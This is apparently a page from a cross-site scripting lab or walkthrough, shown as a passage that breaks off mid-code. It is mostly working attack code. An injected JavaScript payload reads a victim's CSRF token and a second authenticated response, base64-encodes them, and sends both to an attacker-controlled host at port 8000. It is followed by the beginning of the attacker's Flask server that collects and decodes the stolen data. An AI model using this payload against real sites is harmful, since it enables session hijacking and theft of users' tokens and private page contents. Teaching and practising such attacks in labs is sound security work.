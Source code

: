 ##🌙 Victim

Here, you need to find the variable name for the 🐱 token 🐱 you want to exfiltrate!

```
<script>
// retrieve the CSRF token.
var xhr = new XMLHttpRequest();
xhr.open('GET', 'https://🌙/index.php', false);
xhr.withCredentials = true;
xhr.send();

var doc = new DOMParser().parseFromString(xhr.responseText, 'text/html');
var TokenB64 = doc.getElementById('🐱 token 🐱').value;
var Tokenstealer = btoa(TokenB64);  // Base64 encode the token

// Send the CSRF token to your logging server
var logXhr = new XMLHttpRequest();
logXhr.open('GET', 'http://⭐:8000/log?data=' + Tokenstealer, true);
logXhr.send();

// Make a request to the victim server and send the output back to your logging server
var victimRequest = new XMLHttpRequest();
victimRequest.open('GET', 'https://🌙/some_endpoint', true); // Change to the actual endpoint you want to request
victimRequest.withCredentials = true;
victimRequest.onload = function() {
    // Send the response back to your logging server
    var responseOutput = btoa(victimRequest.responseText); // Base64 encode the response
    var responseLogXhr = new XMLHttpRequest();
    responseLogXhr.open('GET', 'http://⭐:8000/log?data=' + responseOutput, true);
    responseLogXhr.send();
};
victimRequest.send();
</script>

```

# 🎃Level 5 - Victim, Send a Post Request ! 🎃

## ⭐ Attacker

`python server.py`

```
from flask import Flask, request
import datetime
import base64

app = Flask(__name__)

# Define the log route
@app.route('/log', methods=['GET'])
def log_request():
    # Get the data parameter from the request
    encoded_data = request.args.get('data', '')

    # Decode the base64-encoded data
    try:
        decoded_data = base64.b64decode(encoded_data).decode('utf-8')
    except Exception as e:
        decoded_data = f"Error decoding data: {e}"

    # Log the decoded data with a timestamp
```